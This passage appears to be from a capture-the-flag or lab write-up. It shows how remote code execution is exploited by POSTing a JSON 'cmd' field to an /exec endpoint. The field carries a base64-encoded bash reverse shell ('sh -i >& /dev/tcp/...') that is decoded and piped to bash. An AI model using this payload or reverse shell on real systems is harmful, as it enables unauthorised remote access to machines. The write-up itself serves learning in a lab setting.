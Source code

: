 We get `whoami` which means that RCE is possible through modifying the request, we can achieve rce by sending the request with a `json` content which points to a reverse shell, let's create the reverse shell first:

```bash
echo 'sh -i >& /dev/tcp/10.14.21.28/4444 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTQuMjEuMjgvNDQ0NCAwPiYxCg==
```

Now, we need to set the `Content-Type` header to `application/json` and send this:

```json
{
	"cmd":"exec echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTQuMjEuMjgvNDQ0NCAwPiYxCg== | base64 -d | bash"
}
```

We also need to change the `GET` request to a `POST` request:

![Pasted image 20250711173602.png](../../IMAGES/Pasted%20image%2020250711173602.png)

We point to the `/exec` endpoint because this is one of the commands we can run:

![Pasted image 20250711173614.png](../../IMAGES/Pasted%20image%2020250711173614.png)
